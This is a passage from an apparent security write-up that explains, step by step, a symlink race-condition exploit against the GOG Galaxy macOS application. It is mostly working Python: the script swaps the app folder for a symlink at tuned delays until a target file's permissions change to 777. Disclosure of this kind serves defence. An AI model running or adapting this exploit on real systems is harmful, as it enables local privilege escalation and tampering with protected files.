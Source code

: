 ```python
        status = os.stat("/tmp/app_test")
        mode_string = str(oct(status.st_mode)[-3:])
        shutil.rmtree("/tmp/app_test/")
        if mode_string == "777":       
                break
        initial_delay += 1
```
Print out the initial delay for debugging.
```python
print("initial delay is around {} seconds".format(initial_delay))
```

Now that we have our `initial_delay` value we can start attempts to exploit the vulnerability properly.

We are going to iterate over the range of (initial_delay-2, initial_delay+2) in 100ms steps. For each iteration we are going to:
```python
for i in range(initial_delay-2, initial_delay+2):
        for j in range(0, 10):
```
Copy across a copy of the GoG application to `/tmp/` and make our `/tmp/app_test` directory.
```python
                shutil.copytree("/Applications/GOG Galaxy.app", "/tmp/GOG Galaxy.app")
                os.mkdir("/tmp/app_test")
```
Run the application and sleep.
```python
                proc = Popen("/tmp/GOG Galaxy.app/Contents/MacOS/GOG Galaxy", stdin=PIPE, stdout=DEVNULL,stderr=STDOUT)
                delay = i + (j * 0.1)
                time.sleep(delay)
```
Rename the application folder and create a symlink to our target in its place.
```python
                os.rename("/tmp/GOG Galaxy.app", "/tmp/app_test")
                os.symlink(target, "/tmp/GOG Galaxy.app")
```
Kill the application.
```python
                time.sleep(0.1)
                proc.kill()
                time.sleep(0.1)
```
Clean up the folder and symlink we have made for this iteration.
```python
                shutil.rmtree("/tmp/app_test/")
                os.unlink("/tmp/GOG Galaxy.app")
```
Check if the vulnerability has trigged. If it has, we quit the loop and print out a statement.
```python
                status = os.stat(target)
                mode_string = str(oct(status.st_mode)[-3:])
                if mode_string == "777":
                        print("exploit succeeded - permisssions of {} changed to 777".format(target))
                        done = True
                        break
                print("time taken {} current mode of {} {}".format(delay,target,mode_string))
        if done:
                break
```
